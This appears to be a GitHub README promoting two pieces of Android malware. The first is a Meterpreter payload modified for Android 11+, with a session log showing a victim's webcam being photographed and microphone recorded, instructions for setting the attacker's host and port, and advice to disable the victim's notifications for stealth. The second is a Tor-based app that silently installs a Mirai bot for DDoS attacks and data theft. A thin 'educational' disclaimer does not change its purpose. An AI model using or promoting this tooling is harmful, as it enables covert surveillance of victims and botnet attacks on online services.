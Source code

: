 # Meterpreter-Android
<img src="https://cloud.githubusercontent.com/assets/7417870/12315404/6dd58120-bab5-11e5-8a10-d5fec03d38d2.gif" width="100" align="right">
Meterpreter payload modified for Android, make it compatible with Android 11+, functions such as camera preview and microphone recording are working properly.

I recommend that after installing the payload on the victim's cell phone, disable the app's notification permission, to make the payload quieter.
```
meterpreter > sysinfo
Computer        : localhost
OS              : Android 13 - Linux 4.19.191-perf-g3c7e48ca8847 (aarch64)
Architecture    : aarch64
System Language : pt_BR
Meterpreter     : dalvik/android
meterpreter > webcam_snap -i 2
[*] Starting...
[+] Got frame
[*] Stopped
Webcam shot saved to: /root/android/bOjFlXzC.jpeg
meterpreter > record_mic -d 5
[*] Starting...
[*] Stopped
Audio saved to: /root/android/TLbcSexf.wav
meterpreter >
```

Setting:

Open the file: Nous/app/src/main/java/nous/client/Payload.java

On line 26 edit your host and Port.
```
public static final String URL = "ZZZZtcp://Host:Port
```

Compiler:
https://github.com/LGLTeam/AIDE-Mods

---

# Tor Network "NousTor.zip"

## Description:
This Android application is designed to perform various harmful activities on the victim's device without their consent. It includes the following functionalities:

1. **Background Installation of Tor**: The application silently downloads and installs the Tor software in the background, without the user's knowledge. This allows the application to communicate anonymously over the Tor network, hiding its malicious activities.

2. **Communication via Tor Network**: Once installed, the application utilizes the Tor network for communication, sending and receiving data from a remote control server. This makes it difficult to detect and trace the malicious activities, as network traffic is encrypted and routed through multiple nodes in the Tor network.

3. **Installation of Mirai Bot**: Additionally, the application downloads and installs the Mirai bot, adapted for Android devices, from a remote server. This bot can be programmed to perform a variety of malicious functions, such as launching distributed denial-of-service (DDoS) attacks, stealing personal information from the user, or infecting other devices on the same network.

4. **Execution of DDoS Attacks**: Once the Mirai bot is active on the victim's device, it can be used to launch DDoS attacks against servers and websites, causing service disruptions and damage to online infrastructure.

## Disclaimer:
This application is created for educational purposes only and should not be used for any malicious activities. The developer assumes no responsibility for any illegal use of this application.

## Legal Notice:
Unauthorized use and distribution of this application may violate local, state, and federal laws. The developer disclaims any liability for the misuse of this application. Use at your own risk.

## Support:
For questions or support, please contact the developer at NousMik@proton.me

---
